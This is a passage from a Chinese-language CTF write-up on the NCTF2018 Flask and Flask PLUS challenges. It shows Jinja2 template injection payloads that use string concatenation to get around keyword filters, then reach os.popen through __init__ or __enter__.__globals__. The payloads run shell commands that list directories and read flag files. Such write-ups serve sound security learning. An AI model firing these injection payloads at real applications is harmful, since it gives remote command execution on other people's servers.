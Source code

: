 nctf-flask-10  

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[312].__init__.__globals__['po'+'pen']('cat /Th1s__is_S3cret').read()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QiayPaQZQUL9XHgDHMXsMNE7rwjQI7KpNgvDdOND2fIdWlxZEY2mD4lQ/640?wx_fmt=png)

nctf-flask-11  

### [NCTF2018]Flask PLUS

看到又是 Flask，后面又加了 PLUS，想必内容肯定没变，应该是过滤内容增加了。

打开题目康康，果然还是 demo，随便造一个 404，还是那个界面。

直接拿上一道题的 payload 去找所有的类，果然还是那么多。找到 `os._wrap_close` 类，打一发上次的 payload，结果炸了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Q465tyjKwd2p5icticia6BepcUqZjhAiabSShSZFzG7j9JbibhozEfbrAzNw/640?wx_fmt=png)

nctf-flask-plus-1  

也就是说，这里更新了过滤的内容，需要 bypass。

我们来探测了一下，发现这次又加了一些过滤：

```
__init__file__dict____builtins____import__getattros
```

完蛋了了，很多方法被过滤了之后，几乎无法访问到我们所需要的方法。

到这里，我们本地机测试一下，看看有哪些方法我们可以用的：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QIL58RR92MYAWUuA1bGP1Q6CKyWnh55rD0auEHkCazgdESRXsdOnbQw/640?wx_fmt=png)

这里我们注意到了`__enter__`方法，查看其内容，发现其竟然有 `__globals__` 方法可用，也就是说这个`__enter__`方法与 `__init__` 方法一模一样。

这里摘抄下一段 stack overflow 的一段话

这里摘抄下一段 stack overflow 的一段话

> •`__init__` (allocation of the class)•`__enter__` (enter context)•`__exit__` (leaving context)

因此 `__enter__` 仅仅访问类的内容，但这已经可以达到我们所需要的目的了。

构造 payload：

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('ls /').read()}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QRYogp4te2ibuUAvE5NkiamKCGnlWZQ4sicicQicNWhiatGDlyCU4ES2JicbSQ/640?wx_fmt=png)

nctf-flask-plus-3  

```
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('cat /Th1s_is__F1114g').read()}}
```
